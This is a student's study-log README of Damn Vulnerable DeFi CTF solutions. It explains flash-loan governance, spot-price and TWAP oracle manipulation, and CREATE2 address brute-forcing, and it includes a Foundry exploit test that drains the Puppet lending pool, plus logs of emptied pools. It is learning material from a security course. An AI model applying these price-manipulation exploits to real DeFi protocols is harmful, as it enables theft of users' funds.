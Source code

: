 ```yaml
---
timezone: Asia/Shanghai 
---
```


# Lori

1. 自我介绍
[Lori](https://www.notion.so/Lori-b62d3531f44f467baa56ddb161f0ef3e?pvs=21), 研三在读学生，研究方向为区块链安全。

2. 你认为你会完成本次残酷学习吗？
保证至少能够完成90%，并参加 BlazCTF。

## Notes

<!-- Content_START -->

### 2024.08.29

Ethernaut 之前我已经做完了了，写了部分[解析和PoC](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/ethernaut).
damn-vulnerable-defi 写了一半，接下来会接着完成剩余的部分，前面3天先复习。
[Selfie](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels/selfie/Selfie.t.sol)
这是有关治理投票的相关攻击，算是比较经典的。
我们注意到，想要提出的提案必须满足以下条件：
1. 提案者必须拥有足够的投票权（在上次快照时间拥有超过DVT总供应量的一半）
2. 接收者不能是治理合约本身msg.sender
第一点，由于没有对持有代币时间的限制，攻击者可以通过闪电贷来绕过第一点的检查。

### 2024.08.30

[Puppet](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/damn-vulnerable-defi/test/Levels/puppet)
Root cause：Spot price
这是一个lending protocol, 通过uniswapv1交易对的瞬时价格来计算coll，攻击者可以通过swap来影响价格，从而掏空池子。

log：
```
function testExploit_Puppet() public {
        uint256 v1PairBalance = dvt.balanceOf(address(puppetPool));
        console.log("v1PairBalance:", v1PairBalance);

        /* 
         * 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
         * 2. 将lending pool的钱通过借款借款 
         */
        emit log("-------------------------- before attack ---------------------------------");
        
        uint256 eth1 = calculateTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        uint256 eth2 = calculateTokenToEthInputPrice(UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        
        emit log_named_decimal_uint("getTokenToEthInputPrice", uniswapExchange.getTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE), 18);
        emit log_named_decimal_uint("attacker use ATTACKER_INITIAL_TOKEN_BALANCE to swap eth1", eth1, 18);
        emit log_named_decimal_uint("attacker use UNISWAP_INITIAL_TOKEN_RESERVE to swap eth1", eth2, 18);
        
        uint256 shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        emit log("-------------------------- after attack ---------------------------------");
        vm.startPrank(attacker);
        // 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
        dvt.approve(address(uniswapExchange), ATTACKER_INITIAL_TOKEN_BALANCE);
        uniswapExchange.tokenToEthSwapInput(ATTACKER_INITIAL_TOKEN_BALANCE, 1, block.timestamp + 1 days);
        shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        // 2. 将lending pool的钱通过借款借款 
        puppetPool.borrow{value: shouldETH}(POOL_INITIAL_TOKEN_BALANCE);
        vm.stopPrank();
        
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }
```

### 2024.08.31
[puppetV2](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels)
与最初版本不同的地方在于使用WETH-token交易对，现在还是关注质押WETH数量是如何计算的，
```
// PuppetV2.sol
    function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
        return (_getOracleQuote(tokenAmount) * 3) / 10 ** 18;
    }

    // Fetch the price from Uniswap v2 using the official libraries
    function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) =
            // 获取交易对数量
            UniswapV2Library.getReserves(_uniswapFactory, address(_weth), address(_token));
        return UniswapV2Library.quote(amount * (10 ** 18), reservesToken, reservesWETH);
    }
// UniswapV2Library.sol
    function quote(uint256 amountA, uint256 reserveA, uint256 reserveB) internal pure returns (uint256 amountB) {
        require(amountA > 0, "UniswapV2Library: INSUFFICIENT_AMOUNT");
        require(reserveA > 0 && reserveB > 0, "UniswapV2Library: INSUFFICIENT_LIQUIDITY");
        amountB = (amountA * reserveB) / reserveA;
    }
```
同样的，质押物价值也是通过uniswapv2池子里交易对数量比值作为瞬时价格，突破点也是在这。与上边不同的地在于需要将eth置换成WETH。

### 2024.09.01
Take a break over the weekend~ 

### 2024.09.02
[SafeMiners](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels/safe-miners/SafeMiners.t.sol)
做到这题发现自己fork的repo是V2的，明天再做更新的，有点大意了>v<
这类问题非常经典。具体来说，当代币转账到一个未部署的地址时，攻击者可以利用 `CREATE2` 指令，通过暴力计算不同的 salt 值来预测合约地址，直至找到目标地址。然后，攻击者可以将攻击合约部署到该地址，并执行代币转账操作。
```
Logs:
  🧨 Let's see if you can break it... 🧨
  dvt.balanceOf(DEPOSIT_ADDRESS): 2000042.000000000000000000
  dvt.balanceOf(ATTACKER): 0.000000000000000000
  dvt.balanceOf(DEPOSIT_ADDRESS): 0.000000000000000000
  dvt.balanceOf(ATTACKER): 2000042.000000000000000000
  
🎉 Congratulations, you can go to the next level! 🎉
```
### 2024.09.03
[puppetV3](https://github.com/Chocolatieee0929/damn-vulnerable-defi/blob/master/test/puppet-v3/PuppetV3)

In the **PuppetV3Pool** contract, the **borrow** function relies on Uniswap V3's TWAP Oracle, which uses a 10-minute interval for price averaging. While this TWAP Oracle is generally secure on the mainnet, it may be more vulnerable to manipulation when the pool has low liquidity and fewer transactions. In such scenarios, the TWAP Oracle's price is based on the first swap transaction in each block, making it easier for attackers to influence the oracle price by executing trades that affect this transaction.

To get the flag for this challenge, I swapped 110e18 tokens for 99e18 WETH to manipulate the price. Meanwhile, I waited for a certain period, as longer wait times are better (refer to the TWAP calculation formula). Finally, I performed the borrowing in the next block.
The required WETH in the lending pool dropped sharply from 3000000000000000000000000 to 143239918968367545.

ps: At first, I tried to manipulate the tick by adding liquidity, but later I realized I was completely mistaken, how can adding liquidity move the tick, haha >v< I'm reviewing Uni V3 while working on the challenge.

```
[PASS] test_puppetV3() (gas: 826104)
Logs:
  ============= Before Attacker =============
  Player balance 1000000000000000000
  Player token balance 110000000000000000000
  Lending pool token balance 1000000000000000000000000
  Lending pool WETH balance 0
  Lending pool WETH required 3000000000000000000000000
   
  ============= Price Manipulation =============
  Swap Token: 110.000000000000000000
  Receive WETH: 99.999999999999999999
  time out 114s
  Lending pool WETH required 143239918968367545
   
  ============= After Attacker =============
  Player balance 856760081031632455
  Player token balance 9397757867327790806
  Lending pool token balance 0
  Lending pool WETH balance 143239918968367545
  Lending pool WETH required 0
```
### 2024.09.05
[WalletMining](https://github.com/Chocolatieee0929/damn-vulnerable-defi/blob/master/test/wallet-mining/WalletMining.t.sol)
读了AuthorizerUpgradeable.needsInit发现是一个很大的数，原因后面再补充，紧接着开启了我漫长的凑地址之路
### 2024.09.06
接前一天，继续算地址，最后采用的是暴力解法
```
while (!flag) {
    address target = vm.computeCreate2Address(
        keccak256(abi.encodePacked(keccak256(initializer), nonce)),
        keccak256(abi.encodePacked(type(SafeProxy).creationCode, uint256(uint160(address(singletonCopy))))),
        address(proxyFactory)
    );
    if (target == USER_DEPOSIT_ADDRESS) {
        flag = true;
        break;
    }
    nonce ++;
}
```
最后通过了
```
Ran 1 test for test/wallet-mining/WalletMining.t.sol:WalletMiningChallenge
[PASS] test_walletMining() (gas: 463716)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.03ms (1.18ms CPU time)
```

<!-- Content_END -->
